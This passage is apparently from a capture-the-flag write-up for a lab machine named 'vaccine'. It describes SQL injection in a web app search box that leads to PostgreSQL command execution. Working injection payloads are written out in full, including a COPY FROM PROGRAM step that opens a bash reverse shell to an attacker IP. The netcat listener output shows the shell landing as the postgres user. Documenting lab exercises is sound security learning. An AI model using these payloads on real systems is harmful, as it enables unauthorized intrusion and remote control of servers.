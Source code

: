 From the great write up - it seemed each step does:

- Create a table named `cmd_exec`
- Add a column called `cmd_output` with type `TEXT`
- Add in a row with the value of `id` - the command that will be run

Then run the command

```none
' UNION SELECT NULL, NULL, NULL, NULL, cmd_output FROM cmd_exec; --
```

So basically, we are creating a new table, column, and row. All by running SQL injection in the search box on the web app. Then we run another query that executes the code. This worked the first time!

![Postgres command execution via SQLi](screenshots/80_sqli_codeexecution.png)

## Getting a Reverse Shell

The next thing we want is a reverse shell. So we adjust our payload.

```none
'; DROP TABLE IF EXISTS cmd_exec; --
'; CREATE TABLE cmd_exec(cmd_output text); --
'; COPY cmd_exec FROM PROGRAM 'bash -c ''bash -i >& /dev/tcp/10.10.14.39/9001 0>&1'''; --
```

And, on the attacker's machine start a listener before running the last command.

```none
└─$ nc -lvnp 9001                        
listening on [any] 9001 ...
connect to [10.10.14.39] from (UNKNOWN) [10.10.10.46] 41298
bash: cannot set terminal process group (1621): Inappropriate ioctl for device
bash: no job control in this shell
postgres@vaccine:/var/lib/postgresql/11/main$
```
